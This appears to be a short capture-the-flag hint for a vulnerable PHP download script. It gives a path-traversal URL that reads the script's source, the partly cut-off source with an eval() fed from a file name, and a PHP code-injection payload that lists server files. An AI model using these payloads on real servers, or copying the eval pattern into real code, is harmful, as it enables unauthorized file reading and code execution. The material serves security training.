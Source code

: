 You can read download.php source from itself:
<pre>
.../download.php?file=readme.txt/../download.php
</pre>
Source:
<pre>
 50)
        exit("Имя файла слишком длинное.");
    
    $fileName = basename($file);
        
    if (strpos($file, "readme") === false) {
        exit("Это неправильный путь, можно скачивать только файлы, в именах которых есть «readme».");
    }
    
    echo 'Содержимое файла '.$file.':';
    echo "
";
    readfile($file);
    echo "
";

    eval("fwrite(fopen('stats/stats.txt', 'a'), \"$fileName\n\");");
?>
</pre>
Do you see php injection too?
<pre>
.../download.php?filereadme"); var_dump(glob("*")); eval("
</pre>
Hint: the .key file is a .txt file too ;)<br>
GL